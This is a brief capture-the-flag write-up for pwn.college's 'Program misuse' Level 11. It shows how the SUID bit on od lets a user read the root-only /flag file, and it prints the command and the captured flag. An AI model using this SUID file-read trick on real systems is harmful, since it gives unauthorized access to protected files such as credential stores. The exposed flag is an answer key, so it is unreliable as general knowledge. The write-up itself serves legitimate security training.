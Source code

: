 # pwn.college - Fundamentals - Program misuse - Level 11
```
$ /challenge/babysuid_level11
```
The SUID bit on `/usr/bin/od` is set
```
$ od --address-radix=n  --format=c /flag | tr -d " \n"
```
`pwn.college{YRcTS40CDNu1x0rB-YYBvqSZEIO.01M1EDLyYjNyEzW}`